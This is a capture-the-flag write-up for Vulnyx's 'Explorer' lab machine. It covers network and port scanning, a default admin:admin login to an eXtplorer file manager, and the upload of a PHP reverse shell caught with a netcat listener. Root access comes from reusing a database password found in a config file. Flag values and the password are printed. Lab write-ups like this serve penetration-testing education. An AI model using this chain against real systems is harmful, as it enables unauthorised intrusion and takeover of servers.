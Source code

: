 # 🖥️ Writeup - Explorer 

**Platform:** Vulnyx  
**Operating System:** Linux  

# INSTALLATION

We download the `zip` containing the `.ova` of the Explorer machine, extract it, and import it into VirtualBox.

We configure the network interface of the Explorer machine and run it alongside the attacker machine.

# HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to Explorer, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```
Info:
```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:1c:29:88      1      60  PCS Systemtechnik GmbH      
 10.0.4.22       08:00:27:a0:a2:05      1      60  PCS Systemtechnik GmbH
 ```

 We identify with high confidence that the victim’s IP is `10.0.4.22`.

 # PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.22
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 10.0.4.22
```
Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 14:42 CEST
Nmap scan report for 10.0.4.22
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.65 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/extplorer
|_http-server-header: Apache/2.4.65 (Debian)
MAC Address: 08:00:27:A0:A2:05 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

Ports `22` and `80` are open.

We access the web service over `HTTP`, the server is running but there is no content yet.

The scan reveals a `robots.txt` file, and it contains a Disallow entry for `/extplorer`.

![alt text](../images/robots.png)

Encontramos una disallowed entry, un directorio llamado /extplorer.

We navigate to `/extplorer` and encounter a `login` page.

![alt text](../images/loginex.png)

We try common/default credentials such as `admin` : `admin`.

The default credentials work, so we log in to an admin panel that appears to be a web file manager supporting uploads and downloads.

We upload a `PHP` reverse shell (PentestMonkey’s `php-reverse-shell`).

![alt text](../images/revvshell.png)

Before any further action, we start a `listener` on our attacker machine.

```bash
sudo nc -nlvp 4444
```

We now execute the uploaded file at `http://10.0.4.22/shell.php` and obtain a `reverse shell` as user `www-data`.

Info:
```
connect to [10.0.4.12] from (UNKNOWN) [10.0.4.22] 60142
Linux explorer 6.1.0-39-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.148-1 (2025-08-26) x86_64 GNU/Linux
 14:53:20 up 12 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

We have obtained a `reverse shell` as the user `www-data`!

In `/home` we find the `user flag`.

```
3f2580ab16ac82c9e0adaf0dad3a900d
```

# TTY

Before attempting privilege escalation, we upgrade the `TTY` for a more interactive shell:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

We check for `sudo` privileges, `SUID` binaries, and Linux `capabilities`.

However, no obvious privilege escalation vectors are found.

Under `/var/www/html/extplorer/config` we find `conf.php`:

```
$GLOBALS['DB_HOST'] = 'localhost';
$GLOBALS['DB_NAME'] = 'webdav';
$GLOBALS['DB_USER'] = 'root';
$GLOBALS['DB_PASSWORD'] = 'AccessGranted#1';
$GLOBALS['DB_TYPE'] = 'mysql'; // Name of the Database Server Type (see http://en.php.net/manual/en/pdo.drivers.php for more)
```

Reading it reveals `MySQL` credentials `root` : `AccessGranted#1`, but the `MySQL` service appears to be down or inaccessible.

We try the same password on the system `root` account.

```bash
su root
```

Info:
```
root@explorer:/var/www/html/extplorer/config# whoami
root
root@explorer:/var/www/html/extplorer/config#
```

It works, and we obtain a `root` shell!

In `/root` we find the `root flag`:

```
9a045d36c5a28f01784bdcfb326accfe
```
